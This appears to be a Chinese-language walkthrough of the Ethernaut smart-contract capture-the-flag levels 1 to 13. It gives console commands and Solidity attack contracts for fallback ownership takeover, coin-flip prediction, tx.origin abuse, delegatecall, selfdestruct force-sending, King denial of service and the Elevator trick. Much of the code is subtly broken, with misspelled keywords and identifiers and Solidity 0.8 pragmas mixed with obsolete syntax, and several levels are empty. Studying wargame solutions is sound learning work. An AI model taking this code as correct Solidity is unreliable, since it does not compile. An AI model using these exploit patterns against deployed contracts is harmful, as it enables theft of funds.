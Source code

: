 ###  1. 你好Ethernaut
##### 按照提示输入以下指令
await contract.info()
"You will find what you need in info1()."

await contract.info1()
"Try info2(), but with "hello" as a parameter."

await contract.info2("hello")
"The property infoNum holds the number of the next info method to call."

await contract.infoNum()
42

await contract.info42()
"theMethodName is the name of the next method."

await contract.theMethodName()
"The method name is method7123949."

await contract.method7123949()
"If you know the password, submit it to authenticate()."

await contract.password()
"ethernaut0"

await contract.authenticate("ethernaut0")
### 2. Fallback
##### 对合约转账1wei从而改变其balance,调用sendTransaction函数触发fallback获取合约的owner变为自己的地址，再用withdraw转走合约的代币ine
await getBalance(instance)

await contract.contribute({value:1})

await getBalance(instance)

await contract.sendTransation({value:1})

await contract.owner()

await contract.withdraw()
### 3. Fallout
##### 查看合约的owner,调用函数来更换合约的owner
await contract.owner()

await contract.Fallout()

await contract.owner()
### 4. Coin Flip
##### 写攻击合约，攻击十次
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import '../CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function attack(address_victim) public returns (bool) {
    CoinFlip coinflip = CoinFlip( victim);
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? ture : false;
    coinflip.flip(side);
    return side;
   }
 }
 连续attack10次
 ### 5.Telephone
 ##### 调用攻击合约，调用受害者合约，输入自己的地址从而改变受害者合约的owner
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '../Telephone.sol';
contract TelephoneAttack{

    Telephone phone;
    
    constructor(address _telephone) {
        phone = Telephone(_telephone);
    }
    
    fuction attack(address _owner) public {
       phone.changeOwner(_owner);
    }
 }

await contract.owner();
### 6. Token
##### 调用transfer函数向自己转币
await contract.balanceOf(player)

player

contract.transfer(地址)
### 7.Delegation
##### 通过delegatecall调用pwn函数更换owner
player

await contract.address

contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)});

await contract.owner

await contract.owner()
### 8.Force
##### 创建一个合约，转入部分eth，调用selfdestruct将新合约中的eth发给合约
await contract.address()

pragma solidity ^0.8.0;
contract Force {
 function Force() public payable {}
 function exploit(address _ target) public {
    selfdestruct(_ target);
 }
}
调用ForceSendEter(),传入合约地址
### 9. Vault
##### 

### 10. King
##### 部署攻击合约进行revert
pragma solidity ^0.8.0;

contract attack{
    function attack(address _ addr) public payable{
        _ addr.call.gas(10000000).value(msg.value)();
    }
    function () public {
        revert();
    }
}
prize = await contract.prize()

fromWei(print.toNumber())

await contract.address

await contract.king()
### 11.Re-entrancy
##### 
await getBalance(comtract)

instance
### 12. Elevator
##### 调用attack来实施攻击
pragma solidity ^0.8.0;
interface Building {
  function isLastFloor(uint) view public returns (bool);
}
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _ floor) public {
    Building building = Building(msg.sender);
    if (!building.isLastFloor(_ floor)) {
      floor = _ floor;
      top = building.isLastFloor(floor);
    }
  }
}

contract BuildingEXP{
    Elevator ele;
    bool t = true;
    function isLastFloor(uint) view public returns (bool) {
        t = !t;
        return t;
    }
    function attack(address _ addr) public{
        ele = Elevator(_ addr);
        ele.goTo(5);
    }
}
await contract.address

await contract.floor()

await contract.top()

await contract.top()
### 13. Privacy
##### 














